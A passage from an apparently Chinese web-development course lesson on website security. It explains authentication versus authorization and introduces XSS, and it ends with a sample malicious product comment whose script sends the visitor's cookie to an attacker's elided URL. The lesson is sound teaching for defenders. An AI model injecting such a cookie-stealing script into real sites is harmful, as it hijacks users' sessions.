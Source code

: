 <audio id="audio" title="31 | 防人之心不可无：网站安全问题窥视" controls="" preload="none"><source id="mp3" src="https://static001.geekbang.org/resource/audio/f0/6a/f06b5213f9113f2c2c34874fbefd1f6a.mp3"></audio>

你好，我是四火。

今天，我们来学习一些网站安全的基础知识。作为一名 Web 全栈工程师，不可避免地会经常性地面对网站安全的问题，因此有关安全的学习是十分必要的。这一讲我们就来看一些常见的安全问题，并了解它们相应的解决办法，加强安全意识。

## 鉴权和授权

我把这两个概念的比较放在开头，是因为这两个概念有相关性且很常用，还有就是这二者太容易被混用了，但是实际上，它们却又是大不相同的。**鉴权，Authentication，指的是对于用户身份的鉴别；而授权，Authorization，指的是允许对于特定资源的指定操作。**

我们可以借助具体的例子来深入了解。

先说说鉴权。网站的登录系统，输入正确的用户名和密码以便登陆，这个过程就是一个鉴权参与的过程。输入了正确的用户名和密码，系统就能够确认用户的身份，鉴权也就成功了。再比如我们在 [[第 02 讲]](https://time.geekbang.org/column/article/135864)  中介绍的 HTTPS 通信，其中的密钥也是起到了“鉴别身份”的作用，这个起作用的过程也属于鉴权。

**为了安全考虑，在实际应用中鉴权有时不是靠“单因子”（Single-Factor）就够了的，我们还会采用“多因子”（Multi-Factor）的方式。**

举个例子，银行转账的时候，你光输入账号和转账密码，这是属于单因子，一般是不够的，还必须有其它的因子，比如说 U 盾等等。多个因子之间一般要求是独立的，无依赖关系。再比如说，你通过电话去办理通讯业务的时候，有时候为了证明你的身份，你会被要求提供 PIN 或者密码以外的其他“个人信息”，像是说出最近三次通话的电话号码，这些方式，都是为了增加“鉴权因子”的种类，从而提高安全级别。

再来举个授权的例子。还记得我们在 [[第 04 讲]](https://time.geekbang.org/column/article/136795) 中介绍的“资源”吗？对于不同的资源，不同的用户拥有不同的权限，而授权根据权限配置，确定用户对特定的资源是否能执行特定的行为。比如说，我们提到过的图书馆系统，授权确定用户是否能够查看图书信息，是否能够修改图书信息等等。

<img src="https://static001.geekbang.org/resource/image/90/c2/90f7cb6ebb001eb3fcccaf19091bbec2.png" alt="">

## 常见的 Web 攻击方式

好，我想你已经理解了鉴权和授权的含义与区别。下面我就来介绍几种常见的 Web 安全问题，在这部分的学习过程中，你可以联想一下在你经历过的项目，是否具备相同的安全隐患？

### 1. XSS

XSS，Cross Site Script，跨站脚本攻击。原理是攻击者通过某种方式在网页上嵌入脚本代码，这样，正当用户在浏览网页或执行操作的时候，脚本被执行，就会触发攻击者预期的“不正当”行为。

举个例子。在 [[第 29 讲]](https://time.geekbang.org/column/article/166084) 中我介绍了会话的原理，服务端给用户分配了一个标识身份的字符串，整个会话生命周期内有效，保存在浏览器的 Cookie 中（如果你忘记了，请回看）。

现在，攻击者在服务器返回的普通页面中嵌入特殊的脚本代码，那么在普通用户浏览这个网页的时候，这个特殊的脚本代码就得到了执行，于是用户的 Cookie 通过请求的方式发送给了这个攻击者指定的地址，这样攻击者就劫持了用户的会话，利用 Cookie 中标识身份的字符串，就可以伪装成实际的用户，来做各种坏事了。这个过程见下图：

<img src="https://static001.geekbang.org/resource/image/e9/ce/e9a926d5164fb90ac617b723c68529ce.jpg" alt="">

你可能会想了，那在服务器端严格控制，不让用户上传脚本不就得了？

可是，**这个恶意脚本的上传，往往是通过“正常”的页面访问来进行的，因此这个控制方法很容易疏漏。**比如给正常页面的请求添加特殊的参数，或者是提交信息表单的时候，构造一些特殊值。它们是利用网站的漏洞来做文章的，像是缺乏对用户上传的数据进行字符转义，而直接将这样的上传数据显示到页面上。

举个例子：用户可以在电商网站的产品页面提交对产品的评论，并且，这个评论会显示到产品页上。于是攻击者上传了这样一段产品评论：

```
评论内容上半部分
&lt;script&gt;
  var script =document.createElement('script');
  script.src='http://...?cookie=' + document.cookie;
  document.body.appendChild(script);
&lt;/script&gt;
评论内容下半部分

```

